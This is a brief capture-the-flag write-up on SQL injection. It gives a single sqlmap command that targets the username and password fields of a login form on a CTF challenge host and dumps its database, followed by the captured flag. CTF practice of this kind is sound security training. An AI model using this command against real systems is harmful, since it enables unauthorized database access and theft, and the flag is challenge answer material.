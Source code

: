 # SQLI 101
Used sqlmap to bruteforce it using username and password parameters   
``sqlmap -u http://chal4.hackademy.ctf --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ``
``FLAG-VTjo1lpqGRcHdtD5r02e73Dq4jrnusXn``
